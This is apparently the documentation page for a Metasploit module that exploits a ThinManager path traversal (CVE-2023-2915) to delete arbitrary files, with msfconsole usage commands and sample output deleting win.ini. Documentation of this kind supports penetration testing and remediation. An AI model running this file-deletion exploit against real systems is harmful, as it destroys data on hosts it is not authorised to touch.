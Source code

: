 ## Vulnerable Application

This module exploits a path traversal vulnerability in ThinManager <= v13.1.0 (CVE-2023-2915) to delete an arbitrary file from the
system.

The affected service listens by default on TCP port 2031 and runs in the context of NT AUTHORITY\SYSTEM.

## Testing

The software can be obtained from
[the vendor](https://thinmanager.com/downloads/).

**Successfully tested on**

- ThinManager v13.1.0 on Windows 22H2
- ThinManager v13.0.1 on Windows 22H2
- ThinManager v13.0.0 on Windows 22H2
- ThinManager v12.1.5 on Windows 22H2
- ThinManager v10.0.2 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/gather/thinmanager_traversal_delete
msf6 auxiliary(gather/thinmanager_traversal_delete) > set RHOSTS <IP>
msf6 auxiliary(gather/thinmanager_traversal_delete) > set FILE <file to delete>
msf6 auxiliary(gather/thinmanager_traversal_delete) > run
```

This should delete the file as specified through FILE from the remote server.

## Options

### FILE
The file to delete from the remote server.

## Scenarios

Running the exploit against ThinManager v13.0.1 on Windows 22H2 should result in an output similar to the following:

```
msf6 auxiliary(gather/thinmanager_traversal_delete) > run
[*] Running module against 192.168.137.229

[*] 192.168.137.229:2031 - Running automatic check ("set AutoCheck false" to disable)
[!] 192.168.137.229:2031 - The service is running, but could not be validated.
[*] 192.168.137.229:2031 - Sending handshake...
[*] 192.168.137.229:2031 - Received handshake response.
[*] 192.168.137.229:2031 - Deleting /Windows/win.ini from 192.168.137.229
[+] 192.168.137.229:2031 - Received response from target.
[*] Auxiliary module execution completed
```
